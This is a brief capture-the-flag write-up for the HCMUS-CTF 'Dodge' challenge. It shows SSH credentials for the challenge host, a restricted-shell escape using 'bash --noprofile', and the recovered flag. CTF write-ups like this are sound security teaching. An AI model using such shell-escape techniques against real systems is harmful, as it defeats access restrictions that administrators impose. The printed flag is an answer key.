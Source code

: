 ## Dodge (50 points)

#### Solved by nhanlun

```
I catched your cat. Can you dodge it?

ssh ctf@61.28.237.24 -p30400 password: hcmus-ctf

author: pakkunandy
```

We have SSH access but our shell is restricted. We can bypass it using `--noprofile`:

```
$ ssh ctf@61.28.237.24 -p30400 -t "bash --noprofile"
ctf@61.28.237.24's password:
ctf@dodge-5bf54d476f-sfnpv:~$ ls
bin  flag.txt
ctf@dodge-5bf54d476f-sfnpv:~$ cat flag.txt
HCMUS-CTF{You_know_some_command_line_stuff}
```

**Flag:** `HCMUS-CTF{You_know_some_command_line_stuff}`

### References

- [https://www.hackingarticles.in/multiple-methods-to-bypass-restricted-shell/](https://www.hackingarticles.in/multiple-methods-to-bypass-restricted-shell/)
